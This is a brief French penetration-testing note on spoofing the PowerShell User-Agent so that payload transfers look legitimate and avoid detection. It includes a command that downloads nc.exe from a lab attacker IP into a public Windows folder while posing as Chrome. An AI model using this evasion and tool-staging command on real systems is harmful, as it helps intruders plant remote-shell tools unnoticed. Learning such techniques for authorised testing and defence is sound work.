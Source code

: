 ```yaml
---
public: true # set to true to make the article publishable
---
```


Dans un environnement ayant mis en oeuvre des mesures de sécurité, l'utilisation des User-Agents par défaut pourrait être détecté assez facilement.

Lors du téléchargement ou de l'envoie de nos payloads, il peut être utile de modifier le User-Agent pour parraître légitime.

## Powershell

```powershell
# Liste de User Agents
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


# Modification du User Agent d'Invoke-WebRequest
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```
